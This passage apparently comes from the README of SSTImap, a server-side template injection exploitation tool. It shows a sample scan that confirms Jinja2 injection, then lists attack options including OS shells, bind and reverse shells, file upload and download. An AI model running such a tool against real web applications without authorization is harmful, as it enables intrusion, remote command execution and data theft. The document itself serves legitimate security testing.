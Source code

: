 After the exploitation, SSTImap can provide access to code evaluation, OS command execution and file system manipulations.

To check the URL, you can use `-u` argument:

```
$ ./sstimap.py -u https://example.com/page?name=John

                                                
███████╗███████╗████████╗ ▀█▀                                           
██╔════╝██╔════╝╚══██╔══╝═╗ ╔═                                          
███████╗███████╗   ██║    ║ ║                                        
╚════██║╚════██║   ██║    ║ ║                                  
███████║███████║   ██║    ╚╦╝                               
╚══════╝╚══════╝   ╚═╝     │                
███████╗███╗   ███╗██╗   ██╗██╗      █████╗ ████████╗ ██████╗ ██████╗ 
██╔════╝████╗ ████║██║   ██║██║     ██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗
█████╗  ██╔████╔██║██║   ██║██║     ███████║   ██║   ██║   ██║██████╔╝ 
██╔══╝  ██║╚██╔╝██║██║   ██║██║     ██╔══██║   ██║   ██║   ██║██╔══██╗             
███████╗██║ ╚═╝ ██║╚██████╔╝███████╗██║  ██║   ██║   ╚██████╔╝██║  ██║              
╚══════╝╚═╝     ╚═╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═╝               

[*] Version: 1.0.0
[*] Author: Wrench
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable   
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Rerun SSTImap providing one of the following options:
    --os-shell                   Prompt for an interactive operating system shell
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port
    --reverse-shell HOST PORT    Send a shell back to the attacker's port
    --upload LOCAL REMOTE        Upload files to the server
    --download REMOTE LOCAL      Download remote files
```

[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/